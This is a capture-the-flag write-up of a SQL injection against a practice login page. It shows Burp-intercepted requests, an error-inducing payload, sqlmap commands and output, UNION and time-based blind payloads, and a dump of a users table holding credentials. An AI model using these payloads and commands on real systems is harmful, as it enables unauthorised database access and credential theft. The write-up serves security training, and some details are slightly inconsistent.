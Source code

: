 # Web Qualifiers: Sequel Pro
## Statement
> At Sequel Pro there is a vulnerable login page. You can login as ctf with password ctf. Can you find out the secret of admin?

Author: **@Mocanu Gabriel**

## Analysis

By reaching the url you arrive in a login page and when connecting using the initial creds shows up that we get a "non-secret".

I intercepted the login request using Burp-Suite and sent it to the repeater, to work on the parameters.

After tryng a few payload, we see that when trying sql-injection on the parameters, we obtain an error, which learns us about the database:
payload
`username=admin&password=' OR 1=1 --aa`
response
```
<html>
  <head>
    <title>login.php</title>
  </head>
  <body>
<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_array() on boolean in /var/www/html/login.php:23
Stack trace:
#0 {main}
  thrown in <b>/var/www/html/login.php</b> on line <b>23</b><br />
```

So the parameter password is injectable, now we can start working on the database to find the databases names, the tables names and the columns, and in the end we may try to find what is inside the columns to get any interesting informations.

What we are looking for are login parameters for the admin account.

To do so, I choose to use sqlmap, and I put the request intercepted with Burp-Suite in a .txt file:

login.txt
```
POST /login.php HTTP/1.1
Host: 141.85.224.116:8083
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://141.85.224.116:8083
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://141.85.224.116:8083/index.php
Accept-Encoding: gzip, deflate, br
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close

username=username&password=password
```

This command gave me the following result: `python .\sqlmap.py -r .\login.txt`
```
sqlmap identified the following injection point(s) with a total of 108 HTTP(s) requests:
---
Parameter: password (POST)
    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=admin&password=admin' UNION ALL SELECT NULL,NULL,CONCAT(0x716b717a71,0x57766e4f574e5a665a4b4d4f647a726f466b784864614e54736444724b574a675158494a72626658,0x716b6b6271)-- -

Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 1467 FROM (SELECT(SLEEP(5)))ChfG) AND 'TkQc'='TkQc&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-7597' UNION ALL SELECT NULL,NULL,CONCAT(0x716b717a71,0x474f674c674b49564e73597743637771435748577242514d705355786172767741536a6169794d5a,0x716b6b6271)-- -&password=admin
---
```

## Exploitation

We can start working on the exploit w/ this command: `python .\sqlmap.py -r .\login.txt --dbs`

```
available databases [6]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] users
[*] web_task_db
```

`python .\sqlmap.py -r .\qualifiers.txt -D users --tables` learns us that there is only one table in this db which is users

Then --dump gives us the table in itself: `python .\sqlmap.py -r .\qualifiers.txt -D users -T users --dump`

```
Table: users
[2 entries]
+--------+---------------------------+--------------+
| name   | secret                    | password     |
+--------+---------------------------+--------------+
| admin  | SSS{yummy_and_nutritious} | phahh7Gohpha |
| ctf    | this_is_not_a_secret      | ctf          |
+--------+---------------------------+--------------+
```

We found the flag which was the actual admin password.

Note: We could have proceed all these injections manualy by following this pattern
- Find the number of parameters of the query with UNION SELECT NULL and adding more or less NULL
- Find the databases names then table names using information_schema guessing with LIKE queries (WHERE schema_name LIKE 'a'... then LIKE 'ua'.. 'us'.. etc.)
- Do the same LIKE to find the columns of the users table
- Dump the data using LIKE queries
- Query the secret / connect with the admin credentials and get the secret on the website

Flag: **SSS{yummy_and_nutritious}**